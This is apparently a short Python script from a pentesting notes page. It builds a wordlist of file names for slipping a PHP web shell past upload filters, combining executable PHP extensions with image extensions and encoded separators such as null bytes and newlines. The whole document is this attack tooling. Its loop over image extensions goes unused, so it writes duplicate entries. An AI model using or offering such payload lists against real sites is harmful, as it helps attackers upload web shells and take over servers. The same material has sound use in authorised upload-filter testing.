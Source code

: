 ## script to write custom file extensions 
```python
char_list = {'%20', '%0a', '%00', '%0d0a', '/', '.\\', '.', '…', ':'}
harm_ext_list = {'.phpt', '.phar', '.pht', '.php8', '.php5', '.php4', '.php3', '.pgif', '.phtml', ".php", ".php7", '.phtm'}
good_ext_list = {'.png', '.gif', '.jpeg', '.svg'}

with open('filelist.txt', 'a') as f:
    for char in char_list:
        for hext in harm_ext_list:
            for gext in good_ext_list:
                variations = [
                    f'shell{hext}.png',
                    f'shell.png{hext}',
                    f'shell.png{char}{hext}',
                    f'shell.png{hext}{char}',
                    f'shell{char}{hext}.png',
                    f'shell{hext}{char}.png'
                ]
                for variant in variations:
                    f.write(f'{variant}\n')

```
